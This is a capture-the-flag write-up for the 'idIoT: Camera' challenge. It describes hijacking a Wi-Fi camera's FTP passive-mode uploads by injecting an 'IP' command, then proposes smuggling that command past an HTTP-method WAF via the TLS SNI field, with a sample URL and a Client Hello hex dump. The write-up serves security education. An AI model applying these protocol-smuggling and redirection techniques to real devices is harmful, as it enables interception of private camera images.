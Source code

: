 ### idIoT: Camera (unsolved, written by bookgin)

Thanks to @bluepichu and @kunte_ for this solution.

The challenge includes a binary of the customized FTP server. After digging into the commands, @sasdf found this ftp server allows a "IP" command, which is used to specify the server IP. Also, "PASV" command exists. It looks like we can attack the FTP passive mode by sppcify our IP address. Because when sending `PASV` command, the server will tell which (IP, port) the user should connect. The IP can be controlled by the `IP` command.

The attack steps are listed below:

1. The Wifi camera login to the FTP server: `USER username`, `PASS password`
2. We quickly create another connection and send `IP 240.1.2.3`.
3. Next, the Wifi camera will send `PASV` command, but the IP has be changed!
4. The FTP server will reply `227 Entering passive mode (240,1,2,3,86,206)`, whihc is our specific IP.
5. Thus, the Wifi camera will start to send the image to our server.

Okay, but how do we send `IP 240.1.2.3`? Remember in the idIoT: Action, we have the XSS attack vector. We can smuggle the FTP protocol thorugh HTTP request. However, there is a WAF in the FTP server:

```cpp
if ( v65 > 2 && !strncasecmp(s1, "GET", 3uLL)
    || v65 > 3 && !strncasecmp(s1, "HEAD", 4uLL)
    || v65 > 3 && !strncasecmp(s1, "POST", 4uLL)
    || v65 > 2 && !strncasecmp(s1, "PUT", 3uLL)
    || v65 > 5 && !strncasecmp(s1, "DELETE", 6uLL)
    || v65 > 6 && !strncasecmp(s1, "CONNECT", 7uLL)
    || v65 > 6 && !strncasecmp(s1, "OPTIONS", 7uLL)
    || v65 > 4 && !strncasecmp(s1, "TRACE", 5uLL)
    || v65 > 4 && !strncasecmp(s1, "PATCH", 5uLL) )
```

and we stuck here until the comppetition ends because we are not able to come out of a way to bypass the WAF and smuggle the protocl.

The HTTP request does't work. How about FTP request? Although Chorme support FTP, it cannot be used to send our customized command `IP 240.1.2.3`. Inserting CRLF in `ftp://username:password@hostname/`  doesn't work at all. Of course, there is no gopher/dict protocol implementation in Chrome.

but how about the HTTPS protocol?

Although the first TLS handshake message Client Hello is encrypted, not all of the payload are garbled, encryted text. The SNI (server name indication) is left in plaintext. Let's leverage SNI to smuggle the FTP protocol. 

Suppose the URL is:

`https://p8.8.8.8.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaa.127.0.0.1.xip.io:1212`

Of course, the DNS record will resolve to 127.0.0.1. ([xip.io](http://xip.io/) is a handy website when you're too lazy to build up a DNS server yourself.)

The raw client hello will be like: 
```
...
0040   c0 14 00 33 00 39 00 2f 00 35 00 0a 01 00 01 b5  ...3.9./.5......
0050   00 00 00 6e 00 6c 00 00 69 70 38 2e 38 2e 38 2e  ...n.l..ip8.8.8.
0060   38 2e 61 61 61 61 61 61 61 61 61 61 61 61 61 61  8.aaaaaaaaaaaaaa
0070   61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
0080   61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
0090   61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00a0   61 2e 61 61 61 61 61 61 61 61 61 61 61 61 61 61  a.aaaaaaaaaaaaaa
00b0   61 2e 31 32 37 2e 30 2e 30 2e 31 2e 78 69 70 2e  a.127.0.0.1.xip.
00c0   69 6f 00 17 00 00 ff 01 00 01 00 00 0a 00 0a 00  io..............
00d0   08 00 1d 00 17 00 18 00 19 00 0b 00 02 01 00 00  ................
00e0   23 00 00 00 10 00 0e 00 0c 02 68 32 08 68 74 74  #.........h2.htt
00f0   70 2f 31 2e 31 00 05 00 05 01 00 00 00 00 00 0d  p/1.1...........
```
